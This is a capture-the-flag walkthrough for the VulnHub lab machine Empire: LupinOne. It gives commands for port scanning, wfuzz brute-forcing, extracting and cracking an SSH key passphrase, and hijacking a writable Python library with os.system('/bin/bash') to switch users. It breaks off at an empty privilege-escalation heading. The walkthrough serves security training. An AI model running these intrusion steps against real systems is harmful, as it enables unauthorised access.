# Empire: LupinOne Walkthrough

## Preparation
1. Download Empire-Lupin-One.zip file ([Empire-Lupin-One.ova](https://download.vulnhub.com/empire/01-Empire-Lupin-One.zip))

1. Extract the zip file  

1. Import the Empire-Lupin-One.ova file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the Empire-Lupin-One virtual machine
    * Turn on the Empire-Lupin-One virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Empire-Lupin-One virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.115**: Empire-Lupin-One Server  

1. Set the Empire-Lupin-One IP address to the environment variance  
    * `export IP=192.168.56.115`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 22 (SSH Service) and 80 (HTTP Service) ports.  

1. Enumerate accessible directories  
    * Use Wfuzz  
      
        - `wfuzz -c -z file,/home/nobu/vulnhub/SecLists/SecLists-master/Discovery/Web-Content/raft-large-directories.txt --hc 404 "http://$IP/~FUZZ/"`  
        - We found the "secret" and the "myfiles"  
    * Access to the "~secret" page  
      
        - **icex64** is a suspicious word  

1. Enumerate accessible files  
    * Modify the "rockyou.txt" file  
        - `cp /usr/share/wordlists/rockyou.txt ./`  
        - `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`  
    * Use Wfuzz  
      
        - `wfuzz -c -z file,./custom_rockyou.txt --hc 404 "http://$IP/~secret/.FUZZ.txt"`  
        - We found the "secret.txt" file  

## Execution  
1. Download the text file  
    * Use curl command  
        - `curl -OL http://192.168.56.115/~secret/.mysecret.txt`  

1. Decode the text file  
    * Use CyberChef  
      
        - Paste the .mysecret.txt contents  
        - Select the "From Base58"  
        - `cat > key`  
        - Paste the decoded contents in the key  

1. Analyze the key file  
    * Make the ssh2john_v2.py file  
        - Access to the "https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py"  
        - `cat > ssh2john_v2.py`  
        - `chmod +x ssh2john_v2.py`  
    * Execute ssh2john_v2.py file  
        - `python3 ssh2john_v2.py key >passphrase_hash.txt`  
    * Use John  
      
        - `john passphrase_hash.txt -wordlist=/usr/share/wordlists/fasttrack.txt`  
        - Password: **P@55w0rd!**  

1. Access to the SSH Service  
    * The "~secret" page is incicated "Your best friend icex64"  
    * Access to the SSH service  
      
        - `chmod 700 key`  
        - `ssh -i key icex64@192.168.56.115`  
        - Username: **icex64**  
        - Password: **P@55w0rd!**  

## Persistence  
1. Confirm sudo  
    * Execute "sudo -l" command  
      
        - `sudo -l` 
        - heist.py is an executable file  

1. Confirm the heist.py file  
    * Use ls -la command  
      
        - `ls -la /home/arsene/heist.py`  
        - We cannot modify the heist.py file  
    * Use cat command  
      
        - `cat /home/arsene/heist.py`  
    * Confirm the "webbrowser" module  
      
        - `ls -la /usr/lib/python3.9/*webbrowser*`  
        - The file permission is "rwx"  

1. Modify the webbrowser.py file  
    * Add malicious code in the webbrowser.py file using nano  
      
        - Add `os.system("/bin/bash")`  

1. Execute the heist.py file  
    * Execute as arsene user  
      
        - `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`  

1. Investigate the arsene user  
    * See the sudo permissions  
      
        - `sudo -l`  
        - "/usr/bin/pip" is executable as a root user  

## Privilege Escalation  
1. 
    * 